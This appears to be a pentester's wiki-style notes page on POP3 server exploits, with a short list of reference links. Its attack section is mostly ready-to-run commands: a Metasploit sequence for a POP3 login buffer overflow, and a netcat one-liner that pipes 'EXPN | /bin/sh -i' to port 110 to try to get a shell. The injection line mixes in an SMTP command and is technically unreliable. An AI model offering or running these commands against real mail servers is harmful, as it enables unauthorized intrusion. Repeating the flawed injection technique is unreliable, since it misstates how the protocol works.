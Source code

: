 ## Exploits 

### POP3 Buffer Overflow
- **Tool:** [[Metasploit]], Custom Exploits
    ```bash
    use exploit/windows/pop3/pop3_login_buffer_overflow
    set RHOST <target_ip>
    set RPORT 110
    exploit
    ```
- **Description:** Exploit buffer overflow vulnerabilities in older or poorly configured POP3 servers to gain shell access or execute arbitrary code.

### POP3 Command Injection
- **Tool:** [[Custom Scripts]]
    ```bash
    echo -e "USER admin\nPASS admin\nEXPN | /bin/sh -i\n" | nc <target_ip> 110
    ```
- **Description:** Inject commands via POP3 commands, potentially allowing remote code execution or unauthorized access.

# Resources

|**Website**|**URL**|
|-|-|
|RFC 1939 (POP3 Specification)|https://tools.ietf.org/html/rfc1939|
|Dovecot POP3 Configuration|https://doc.dovecot.org/configuration_manual/protocols/pop3_server/|
|Courier POP3 Documentation|https://www.courier-mta.org/pop3d.html|
|OpenSSL Documentation|https://www.openssl.org/docs/|
|Nmap POP3 Scripts|https://nmap.org/nsedoc/scripts/pop3-brute.html|
|Wireshark POP3 Analysis|https://wiki.wireshark.org/POP3|
|Hydra Tool|https://github.com/vanhauser-thc/thc-hydra|
|Metasploit Framework|https://www.metasploit.com/|
|Linux man-pages|https://man7.org/linux/man-pages/|